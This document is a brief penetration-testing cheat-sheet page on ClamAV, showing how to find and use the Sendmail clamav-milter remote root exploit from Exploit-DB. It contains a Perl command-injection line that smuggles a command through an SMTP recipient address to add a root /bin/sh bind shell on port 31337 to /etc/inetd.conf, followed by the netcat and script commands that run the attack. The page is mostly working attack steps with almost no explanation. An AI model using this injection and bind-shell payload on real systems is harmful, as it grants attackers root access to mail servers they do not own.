

# ClamAV

### Search vulnerability &#x20;

```
searchsploit clamav
```

<figure><figcaption></figcaption></figure>

Sendmail w/ clamav-milter Remote Root Exploit [https://www.exploit-db.com/exploits/4761](https://www.exploit-db.com/exploits/4761)


```bash
# You can run an arbitrary command after nobody+\"| 

print $sock "rcpt to: <nobody+\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\"@localhost>\r\n";
```



```bash
# Netcat listener
kali> nc 192.168.174.42 31337 

# Exploit 
# Modify the perl script and then execute the script
kali> perl 4761.pl 192.168.174.42
```

<figure><figcaption></figcaption></figure>
